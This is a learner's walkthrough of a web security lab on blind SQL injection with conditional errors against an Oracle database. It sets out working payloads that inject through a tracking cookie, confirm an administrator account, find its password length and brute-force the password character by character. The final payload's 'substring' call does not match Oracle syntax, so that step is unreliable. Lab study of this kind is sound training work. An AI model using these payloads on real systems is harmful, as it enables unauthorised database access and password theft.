





# Lab: Blind SQL injection with conditional errors
- Here it is the same idea as the previous lab, but the difference is that when we have false case, the result will not be shown in the web page, but we will get internal server error instead. 

## Solution steps
1. Know where the vulnerable parameter: 
    - TrackingId cookie. 
2. Know the DB type
    - On sending this payload: 
        - ' || (select '') ||' 
    - We get error, which suggest that maybe the problem that we do not include from clause which is mandatory in oracle
    - but on submitting this payload
        - ' || (select '' from dual) ||'
    - we get 200 response, which means that we are dealing with oracle. 
3. Try to get normal response on true statement
4. Try to get internal error response on false statement
5. Check if the users table exist
    - On using this payload
        - ' || (select '' from users) ||'
    - you will find that it cause error, and the reason is that for each entry in the users table, it will create '' value, which will cause error
    - so we need to restrict the response to only single entry using rownum = 1
        - ' || (select '' from users where rownum=1) ||'
        - 

6. check if the administrator user exist
    - Now in order to know if administrator user exist or not, you may think that we should use this payload: 
        - ' || (select username from users where username='administrator') ||'
    - However this is not valid, because here the response will be 200 in both cases, whether administrator exist or not, because there is no syntax error. 
    - So, to solve this, we need to use the CASE statement in SQL query, so if the administrator exist we excute a query that cause error, otherwise we shouldn't get error. 
        - ' || (select CASE when (1=1) then to_char(1/0) else '' end from users where username = 'administrator') || '
    - you also need to know that the order of excution is as follows:
        - from statement is excuted first, if it returns value
        - then the select statement is excuted.
    - So this mean that the case statement will never be excuted unless there is a user called administrator
        - 
7. get the admin password length
    - now all we need to do is to check if the length is > certain value, and if false, then it will cause no error
    - payload: 
        - ' || (select CASE when (1=1) then to_char(1/0) else '' end from users where username = 'administrator' and length(password) > x) || '
    - and instead of doing this manually, we should use the intruder for bruteforcing this
        - 
        - 
    - So, here you can see that we got normal response = 200 at len = 20
    - so the password length is 20. 
8. get the admin password using bruteforce 
    - Now we will bruteforce using cluster comb attack or custom script to check all possible characters one by one as the previous lab. 
    - payload:
        - ' || (select CASE when (1=1) then to_char(1/0) else '' end from users where username = 'administrator' and substring(password,x,1) = 'a') || '
    - then by using this [multi-threading](./multi_threading_script.py) script, we can get the password easily
        - password: vklah5tjkdj0e7zh2yss
        - 